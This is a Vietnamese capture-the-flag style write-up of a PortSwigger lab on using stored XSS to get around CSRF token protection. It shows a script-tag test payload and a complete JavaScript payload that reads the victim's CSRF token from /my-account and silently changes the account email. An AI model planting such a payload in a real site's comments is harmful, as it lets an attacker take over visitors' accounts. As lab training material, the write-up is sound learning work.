





# Lab: Exploiting XSS to bypass CSRF defenses

## Mô tả lab

Bài lab này thuộc nhóm Exploiting XSS. Mục tiêu của lab là lợi dụng XSS để thực hiện hành vi giống CSRF: thay đổi email của victim.

## Các bước thực hiện

## Phân tích chức năng đổi email

Đăng nhập bằng tài khoản được lab cung cấp

Tại đây có chức năng đổi email.



Quan sát request đổi email, ta thấy ứng dụng gửi request tới endpoint:

```http
POST /my-account/change-email
```

```http
email=for%40example.com&csrf=ewPeNOrknS8qGyEFD6azB9QjTxaI3uFT
```

Điều này cho thấy chức năng đổi email được bảo vệ bằng CSRF token.

Thông thường, CSRF token là cơ chế phòng vệ hiệu quả chống CSRF, vì attacker từ origin khác không thể đọc token trong trang của victim. Tuy nhiên, trong bài này có Stored XSS. Script XSS chạy cùng origin với ứng dụng, nên nó có thể đọc nội dung `/my-account` và lấy CSRF token của victim.

## Phân tích chức năng comment

Kiểm tra xem có thể chèn thẻ `<script>` hay không.

Payload test:

```html
<script>alert(document.domain)</script>
```





Điều này xác nhận comment feature có Stored XSS và có thể dùng nó để thực thi JavaScript trên trình duyệt victim.

## Payload

```html
<script>
var r = new XMLHttpRequest();
r.onload = function() {
    csrf = this.responseText.match(/csrf" value="(\w+)"/)[1];

    var attack = new XMLHttpRequest();
    attack.open("POST", "https://0aa500f4040a9056809ba88000f900c3.web-security-academy.net/my-account/change-email", true);
    attack.setRequestHeader("Content-Type", "application/x-www-form-urlencoded");
    attack.send("email=attack@gmail.com&csrf=" + csrf);
};

r.open("GET", "https://0aa500f4040a9056809ba88000f900c3.web-security-academy.net/my-account", true);
r.withCredentials = true;
r.send();
</script>
```



Lab solved.

